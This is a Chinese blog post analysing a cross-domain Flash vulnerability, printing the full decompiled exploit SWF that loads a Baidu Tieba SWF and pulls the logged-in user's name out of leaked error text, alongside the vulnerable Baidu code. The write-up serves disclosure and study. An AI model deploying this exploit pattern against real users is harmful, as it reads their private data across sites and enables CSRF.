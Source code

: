 ```yaml
---
id: 287
layout: post
title: 'flash被跨域调用导致的安全风险'
date: 2015-06-17 22:25:00
author: virusdefender
tags: 
---
```


flash也是可以和js一样动态的请求和加载，类似这样
a.com上的a.swf
```js
var myLoader:Loader = new Loader();                     
var url:URLRequest = new URLRequest("http://b.com/b.swf"); 
myLoader.load(url);
addChild(myLoader);  
```
但是默认情况下是swf是不能被跨域引用的，所以这个调用不一定成功，只有在b.swf设置了`System.security.allowDomain("a.com")`或者`System.security.allowDomain("*")`的情况下才可以。

这样的话，b.swf中的有一些方法就可以在a.swf中调用了，而且发送的请求会显示来自b.swf，造成了跨域请求，大部分的浏览器是携带cookies的（貌似safari不发送）。

在 [http://weibo.com/2313289447/CmZQrqa4R?type=comment][1] 里面有一个跨域获取百度贴吧用户名的demo，就是利用了百度贴吧里面一个swf的这个漏洞。swf在这也[备份了一个][2]。


<!--more-->


首先看一下exp的反编译后的代码。
```java
package {
    import flash.utils.*;
    import flash.display.*;
    import flash.system.*;
    import flash.net.*;
    import flash.events.*;
    import flash.external.*;

    public class exp extends Sprite {

        private static const PATH:String = "baidu.vote.DataManager";
        private static const URL:String = "http://tieba.baidu.com/tb/static-itieba3/swf/itiebaVote.swf";

        private var clsExp;
        private var clsRes;
        private var nick:String;

        public function exp(){
            var ld:* = null;
            var tid:* = 0;
            super();
            Security.allowDomain("*");
            ld = new Loader();
            ld.load(new URLRequest(URL));
            addChild(ld);
            tid = setInterval(function ():void{
                try {
                    clsExp = ld.contentLoaderInfo.applicationDomain.getDefinition(PATH);
                    clsRes = ld.contentLoaderInfo.applicationDomain.getDefinition("baidu.vote.enumerate.Constants");
                } catch(e:Error) {
                    return;
                };
                clearInterval(tid);
                ready();
            }, 100);
        }
        private function load(url:String):void{
            var obj:* = this.clsExp.getInstance();
            obj.requestPageData({
                r:1,
                voteId:1,
                tn:1
            });
            this.clsRes.URL_VOTE_DETAIL = (url + "#");
            obj.requestVoteDetail();
        }
        private function ready():void{
            loaderInfo.uncaughtErrorEvents.addEventListener(UncaughtErrorEvent.UNCAUGHT_ERROR, function (e:UncaughtErrorEvent):void{
                complete(e.error.text);
            });
            this.load("http://tieba.baidu.com/");
        }
        private function complete(data:String):void{
            var arr:Array;
            arr = data.match(/"name": "([^"]+)/);
            if (arr){
                this.nick = arr[1];
            };
            ExternalInterface.call("bdcallback", this.nick);
        }

    }
}//package
```
加载了`http://tieba.baidu.com/tb/static-itieba3/swf/itiebaVote.swf`这个swf，然后调用了里面的`requestVoteDetail`方法，我们再反编译一下百度贴吧的swf，看看这个方法是干什么的。

```java
private function initialize():void{
            System.useCodePage = true;
            Security.allowDomain("*");
            stage.scaleMode = "noScale";
            ......
```

请求网络的代码
```java
public function requestVoteDetail():void{
            var _local1:String = Constants.URL_VOTE_DETAIL;
            _local1 = (_local1 + pageData.voteId);
            _local1 = (_local1 + ("?alt=json&stamp=" + Math.random()));
            var _local2:URLRequest = new URLRequest(_local1);
            var _local3:URLLoader = new URLLoader();
            _local3.addEventListener(Event.COMPLETE, onVoteDetailComplete);
            _local3.addEventListener(IOErrorEvent.IO_ERROR, onVoteDetailError);
            _local3.load(_local2);
        }
```
处理访问数据的方法
```java
private function onVoteDetailComplete(_arg1:Event):void{
            var _local2:URLLoader = (_arg1.currentTarget as URLLoader);
            _local2.removeEventListener(Event.COMPLETE, onVoteDetailComplete);
            _local2.removeEventListener(IOErrorEvent.IO_ERROR, onVoteDetailError);
            var _local3:String = (_local2.data as String);
            _voteDetail = VoteDetail.fromJsonString(_local3);
            if (((_voteDetail) && ((_voteDetail.errno == 0)))){
                dispatchEvent(new DataManagerEvent(DataManagerEvent.VOTE_DETAIL_OK));
            } else {
                dispatchEvent(new DataManagerEvent(DataManagerEvent.VOTE_DETAIL_ERROR));
            };
        }
```
然后是json解码
```java
public static function fromJsonString(_arg1:String, _arg2:Boolean=false):VoteDetail{
            var _local3:Object = JSON.decode(_arg1);
            return (fromObject(_local3, _arg2));
        }
```
但是这个地方请求获取的是html，不是json，所以处理就会抛出异常，自己catch住就好了，异常的信息里面是包含html的。

这样就造成了一个跨域读取的漏洞，不仅仅是获取用户名，更可以csrf啊。

ps: 在wooyun上搜flash漏洞的时候，我才发现这个漏洞其实已经被报告给百度了，竟然还没修复，23333333

参考

[http://www.cnblogs.com/index-html/p/swf-reflect-priv.html][3]

[http://wooyun.org/bugs/wooyun-2010-0110065][4]

其他的flash安全相关的文章 [http://drops.wooyun.org/tips/2924][5]


  [1]: http://weibo.com/2313289447/CmZQrqa4R?type=comment
  [2]: https://dn-virusdefender-blog.qbox.me/2016/437876600.swf
  [3]: http://www.cnblogs.com/index-html/p/swf-reflect-priv.html
  [4]: http://wooyun.org/bugs/wooyun-2010-0110065
  [5]: http://drops.wooyun.org/tips/2924